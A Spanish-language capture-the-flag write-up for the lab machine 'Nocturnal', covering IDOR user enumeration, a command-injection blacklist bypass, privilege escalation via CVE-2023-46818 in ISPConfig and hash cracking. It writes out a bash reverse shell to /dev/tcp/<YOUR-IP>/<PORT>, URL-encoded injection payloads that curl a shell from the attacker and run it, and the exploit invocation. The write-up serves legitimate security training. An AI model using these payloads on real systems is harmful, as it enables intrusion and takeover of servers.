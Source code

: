 # Write-UP - Nocturnal 
- ---------
- Tags: #Linux #Easy 
- Skills Required: #Basic-Web-Enumeration #Basic-Knowledge-of-source-code-review #Basic-Database-Enumeration 
- Skills Learned: #Enumerating-and-exploiting-IDOR-vulnerabilities #Source-code-review-in-PHP-applications #Exploiting-Command-Injections-Vulnerabilities #Enumerating-SQLite-databases
-  - - -- - 
# Descripción:
Nocturnal es una máquina Linux de dificultad media que presenta una vulnerabilidad IDOR en una aplicación web PHP, lo que permite el acceso a los archivos subidos por otros usuarios. Se recuperan las credenciales para iniciar sesión en el panel de administración, donde se accede al código fuente de la aplicación. Se identifica una vulnerabilidad de inyección de comandos que proporciona una shell inversa como el usuario www-data. Se extraen hashes de contraseñas de una base de datos SQLite y se descifran para obtener acceso SSH como el usuario tobias. La explotación de CVE-2023-46818 en la aplicación ISPConfig permite la ejecución remota de comandos, lo que conlleva una escalada de privilegios al usuario root.
- - -- -
# Enumeración:
------
Comenzamos realizando un escaneo con Nmap en busca de puertos abiertos.
`nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn <IP>`
El resultado del escaneo nos revela que hay dos puertos abiertos en la máquina víctima, el 22 y el 80:
- En el puerto 22 corre OpenSSH.
- En el puerto 80 corre un servicio web (Nginx 1.18.0) a través del protocolo HTTP.
Para poder ver la web debemos añadirla al archivo `/etc/hosts`.

Al entrar en la web vemos que se nos da la opción de registrarnos e iniciar sesión, lo hacemos, una vez logueados observamos un campo que nos permite hacer una subida de archivos.
Al probar a subir un archivo .php nos aparece un mensaje "Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.", en este nos indican los tipos permitidos.
Si intentamos subir un archivo .pdf vemos que se sube sin ningún problema, al hacer hovering vemos que se nos redirige al siguiente enlace, `http://nocturnal.htb/view.php?username=user&file=test.pdf`, gracias a esto tenemos un forma potencial de enumerar usuarios, ya que si el usuario introducido no existe se nos devuelve el siguiente mensaje "User not found".

Ahora vamos a enumerar los usuarios existentes mediante un ataque de fuzzing al parámetro "username".
`ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w /usr/share/Sec-Lists/Usernames/Names/names.txt -H 'Cookie: PHPSESSID=<YOUR-COOKIE>' -fs 2985`
Al finalizar el ataque de fuzzing vemos que hay un usuario llamado "amanda", por lo que si visitamos el siguiente enlace `http://nocturnal.htb/view.php?username=amanda&file=test.pdf`, se nos muestra que el usuario "amanda" tiene un archivo llamado "privacy.odt".

Nos descargamos el archivo "privacy.odt" y lo abrimos con `odt2txt privacy.odt`, dentro del contenido del archivo encontramos la credencial "arHkG7HAI68X8s1J" para el usuario "amanda". Con esto nos podemos loguear como "amanda" en el servicio web.
- - - -
# Explotación:
- - - - -
Al loguearnos vemos que "amanda" tiene acceso al Panel de Administración, en este se nos permite crear Backups de la app al proporcionar una contraseña.
Al realizar el backup vemos que es similar a la creación de un archivo .zip, por lo que la contraseña será la que permita acceder, como tenemos control sobre el campo de introducción de la contraseña, podríamos intentar inyectar comandos ayudándonos de ";".
Probamos a introducir `password; id`, lo que nos devuelve un error, por lo cual el campo de la contraseña podría estar siendo filtrado.

Otra cosa que se nos permite en el Panel de Administración es ver archivos de código, al ver el archivo "admin.php" vemos que estábamos en lo cierto, el campo está filtrado.
Observamos que hay una blacklists en lugar de filtrar los caracteres uno por uno. Además el carácter "space" está también bloqueado. Por otro lado vemos que los tabs y los saltos de línea no lo están.
Para que los tabs y los saltos de línea sean interpretados deben estar URL-encodeados:
- Tabs -> \t -> %09
- Salto de línea -> \n -> %0a
Usando estos caracteres, un payload nos puede permitir entablarnos una shell. Para llevar a cabo esto debemos de cumplir con dos fases:
- Fase 1 -> Descargarnos el payload con la shell a la máquina víctima utilizando `curl`.
- Fase 2 -> Ejecutar el payload con la shell que nos hemos descargado con `bash`.

El payload con la shell lo creamos así:
`echo "bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/<PORT> 0>&1'" > shell`
A continuación nos levantamos un servidor HTTP en el puerto 80 con Python, `python3 -m http.server 80`.
Ahora debemos interceptar (con BurpSuite) la petición de crear un backup e introducimos lo siguiente, `password=test%0acurl%09http://<YOUR-IP>/shell%09-o%09/tmp/shell&backup=`, una vez enviada la petición nos debería de llegar una conexión a nuestro servidor HTTP mediante el método GET para el archivo /shell.

La fase 1 estaría completada, ahora pasaremos a la fase 2, en primer lugar debemos interceptar la petición de nuevo, pero en este caso introduciremos lo siguiente, `password=test%0abash%09/tmp/shell&backup=`, antes de enviar la petición nos ponemos a la escucha por el puerto que especificamos anteriormente, `nc -nlvp <PORT>`, ahora mandamos la petición.

Recibimos una shell como el usuario "www-data" en nuestra máquina atacante.
- -- - -
# Movimiento Lateral:
----
Después de realizar el tratamiento de la TTY, enumeramos el directorio web application.
Es dentro de application's web root donde encontramos un archivo llamado "nocturnal_database.db", abrimos la base de datos, `sqlite3 nocturnal_database.db`, listamos las tablas `.tables` y vemos una tabla llamada users, la cuál vamos a enumerar, `select * from users;`, aquí vemos la contraseña en hash para el usuario "tobias".
A continuación vamos a crackear el hash con hashcat, `hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`, la contraseña en texto claro es "slowmotionapocalypse", usando esta contraseña nos podemos conectar a la máquina víctima como "tobias" a través de SSH y obtener la flag de usuario.
- - - -
# Elevación de Privilegios:
-----
Seguimos con la enumeración, ahora como el usuario "tobias", al hacer uso de `ss -tlnp` vemos que el puerto 8080 está abierto para la interfaz local.
Vamos a hacer port-forwarding de el puerto 8080 de la máquina víctima a la máquina atacante para investigar más, `ssh -L 8080:127.0.0.1:8080 -N -vv tobias@nocturnal.htb`.
Ahora podemos visitar `http://127.0.0.1:8080` desde nuestra máquina atacante.

Se puede observar como se encuentra corriendo ISPConfig, esto es un panel de control de alojamiento de código abierto para Linux. Podemos loguearnos como usuario "admin" y la contraseña que crackeamos para el usuario "tobias".
Una vez dentro vamos a la pestaña "help", donde se nos muestra la versión de ISPConfig, la cual es la 3.2.10p1.

Con esto podemos realizar una búsqueda en Google para encontrar vulnerabilidades para esta versión. Rápidamente encontramos el `CVE-2023-46818` que nos permite ejecución remota de código.
Encontramos una Proof-Of-Concept (PoC) en GitHub, la cual podemos usar para explotar esta vulnerabilidad.

Primero nos clonamos el repositorio, `git clone https://github.com/bipbopbup/CVE-2023-46818-python-exploit.git`, una vez dentro del repositorio clonado, podemos ejecutar el archivo "exploit.py" pasándole la contraseña para el usuario "admin", este nos otorga una shell interactiva como "root".
`python3 exploit.py http://127.0.0.1:8080 admin slowmotionapocalypse`
Al recibir la shell hacemos uso del comando `id` y vemos que somos root, por lo que finalmente podemos obtener la flag de root.